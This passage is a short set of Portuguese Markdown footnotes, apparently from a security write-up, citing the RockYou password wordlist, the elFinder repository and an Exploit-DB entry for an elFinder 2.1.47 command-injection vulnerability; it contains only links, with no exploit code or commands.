[^rockyou]: Wordlist de senhas (RockYou): [https://weakpass.com/wordlists/rockyou.txt](https://weakpass.com/wordlists/rockyou.txt)
[^elfinder]: Repositório oficial do elFinder: [https://github.com/studio-42/elfinder](https://github.com/studio-42/elfinder)
[^edb-46481]: elFinder 2.1.47 - 'PHP connector' Command Injection (46481): [https://www.exploit-db.com/exploits/46481](https://www.exploit-db.com/exploits/46481)

